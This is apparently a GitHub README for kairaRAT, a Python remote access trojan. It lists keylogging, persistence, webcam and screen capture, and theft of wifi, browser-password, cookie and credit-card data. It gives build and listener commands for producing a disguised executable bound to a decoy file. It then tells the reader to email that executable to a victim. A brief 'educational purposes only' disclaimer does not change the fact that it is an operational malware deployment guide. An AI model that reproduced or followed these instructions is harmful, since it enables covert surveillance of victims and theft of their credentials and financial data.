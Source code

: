 # kairaRAT
kairaRAT is a remote access trojan tool built with python.

![kaira1](https://github.com/st4inl3s5/kairaRAT/assets/68844502/201fb3a4-f68a-4c0e-bdc8-cc04f8e376b0)

## Features

+ File/directory managing (delete, rename, create, change etc.)

+ Download files from victim's computer.

+ Executing command on windows command prompt.

+ Taking screenshots from victim's computer.

+ Taking victim's camera snapshots.

+ Keylogger.

+ Persistence(hides trojan to registry and copies itself.)

+ Taking wifi names and passwords.

+ Connection without disconnection.

+ Can be merged with an arbitrary file.

+ Automatic build mode.

+ Automatic update mode.

+ Taking browser saved cookies, passwords and credit cards.

## EDUCATIONAL PURPOSES ONLY.

#### I am not responsible in bad uses of kairaRAT.kairaRAT is made for security researchers.Don't use it for illegal purposes.

## SETUP

You need 2 OS.1)Linux OS 2)Windows OS.Linux for listening connections and managing connections.Windows for building .exe executable file.To make setup, execute the following command on both of them :

+ pip install -r requirements.txt

  ## USAGE

  1. If you want to put icon for the trojan, go to internet and find a image file.Then convert this image file to icon file(with .ico extension) and save this icon to your windows.And if you want to merge a file with trojan too, go to internet and find a merge file(this can be .docx, .png, .jpg etc.) and save to your windows.(This step is optional for social engineering.)
 
  2. In windows, open a command prompt terminal and change the directory to the kairaRAT project directory.Build the executable file with following command :
 
  + python main.py build -ip <your_server_ip_address> -p <your_server_port> -i <icon_file(optional)> -m <file_to_merge(optional)> -n <file_name_after_build_finish(optional)>
 
  + Example : python main.py build -ip 172.28.89.113 -p 4444 -i filetoicon.ico -m hashtypes.png -n kaira.exe
 
  + Example : python main.py build -ip 172.28.89.113 -p 4444 -n kaira.exe
 
  ![kaira2](https://github.com/st4inl3s5/kairaRAT/assets/68844502/25ed23eb-8bcc-493b-aad0-ebc45feab032)

  3. Wait for building process.When the building finished, you see a message :
 
  ![kaira3](https://github.com/st4inl3s5/kairaRAT/assets/68844502/568461f6-b98b-41a8-b494-61333ee53e51)

  4. Check the builds directory.You must see the executable file.

  ![kaira4](https://github.com/st4inl3s5/kairaRAT/assets/68844502/353e7f0e-4a00-4a20-87b0-9aae4838f184)

  5. After that, send this executable file to your victim via email etc.And wait for victim's execute the file.When executed, the merge file will be opened(if you configured to) and trojan executing in background.Copies itself, keylogging and makes persistence.
 
  ![kaira5](https://github.com/st4inl3s5/kairaRAT/assets/68844502/291e24b1-8310-41db-8d40-a0dc28e37833)

  6. Then listen the connections on your linux with the following command :
 
  +  python3 main.py server -ip <your_server_ip_address> -p <your_server_port>
 
  +  Example : python3 main.py server -ip 172.28.89.113 -p 4444 
 
  7. When the connection established, a screen like this appear :

  ![kaira6](https://github.com/st4inl3s5/kairaRAT/assets/68844502/f520e7d2-d121-4b42-a4af-cb1cf9edc6e7)

  8. Type 'help' for command list.The usage all of them is written.
 
  9. You can take camera snapshots, screenshots, victim's keylogs.
 
  ![kaira7](https://github.com/st4inl3s5/kairaRAT/assets/68844502/05e6d6a1-9b7d-45d9-ad99-68e2fe0d9fcd)

  ![kaira8](https://github.com/st4inl3s5/kairaRAT/assets/68844502/eeefd26b-82df-42ca-b889-f2e80220dbca)

  ![kaira9](https://github.com/st4inl3s5/kairaRAT/assets/68844502/162305e2-a424-4b03-b625-56d0b338ac5f)

  ![kaira10](https://github.com/st4inl3s5/kairaRAT/assets/68844502/d7e8f807-f73d-475a-9812-01f1cb9bfaaf)

__You can contact me on instagram : https://www.instagram.com/arduinocum.py or telegram : https://t.me/+5XoMhXv4SghhYmE0__

  [!["Buy Me A Coffee"](https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png)](https://www.buymeacoffee.com/st4inl3s5)
